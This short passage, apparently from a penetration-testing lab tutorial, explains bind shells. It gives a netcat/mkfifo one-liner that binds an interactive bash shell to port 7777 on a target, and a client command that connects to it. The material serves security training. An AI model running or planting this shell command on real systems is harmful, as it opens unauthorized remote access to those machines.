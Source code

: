 -----
With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

#### Server - Binding a Bash shell to the TCP session

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvnp 7777 > /tmp/f
```

#### Client - Connecting to bind shell on target

```bash
nc -nv 10.129.41.200 7777
```